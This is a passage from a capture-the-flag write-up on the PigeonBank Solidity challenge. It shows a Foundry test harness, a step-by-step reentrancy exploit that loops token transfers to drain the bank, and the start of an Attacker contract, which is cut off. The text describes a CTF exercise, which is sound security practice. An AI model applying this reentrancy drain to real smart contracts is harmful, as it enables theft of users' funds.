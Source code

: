 ```solidity
        // @dev - Deposit 2500 ETH to PigeonBank
        pigeonBank.deposit{value: 2500 ether}();

        vm.stopPrank();
    }

    function test() public {
        //30 eth are the standard for the paradigm framework, but this could be configured differently, you can easily check this by importing the rpc url and private key into metamask and checking the balance of the deployer account
        vm.deal(attacker, 30 ether); 
        vm.startPrank(attacker);

        //Code your solution here

        vm.stopPrank();
        assertEq(isSolved(), true);
    }

    function isSolved() public view returns (bool) {
        //Copy the content of the isSolved() function from the Setup.sol contract here
        return (peth.totalSupply() == 0) && (address(attacker).balance >= 2500 ether);
    }
}
```

After some trying around I realized that I won't be able to exploit the reentrancy in one step. But I can do it with a bit more complicated path:

1. Deposit my eth into the contract
2. Do the following in a loop 250 times (could be done more efficiently but its a CTF so who cares)
3. Call to withdraw all
4. When you receive the money, transfer all your tokens to a different address (under your control)
5. Let the contract burn your balance (0)
6. Transfer the tokens back and start again
7. When the loop has finished you're done.

As I am too lazy to do something 250x I wrote an attack contract that does the work for me.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.17;

import "./PETH.sol";
import "./PigeonBank.sol";
import "./Receiver.sol";

contract Attacker
{
    PigeonBank public pigeonBank;
    PETH public peth;
    Receiver public receiver;
    address public owner;

    constructor(address _pigeonBankAddress) {
        pigeonBank = PigeonBank(payable(_pigeonBankAddress));
        peth = PETH(pigeonBank.peth());
        owner = msg.sender;
        receiver = new Receiver(_pigeonBankAddress);
    }

    function attack() public payable {
        //First we deposti our 10eth
        pigeonBank.deposit{value: 10 ether}();

```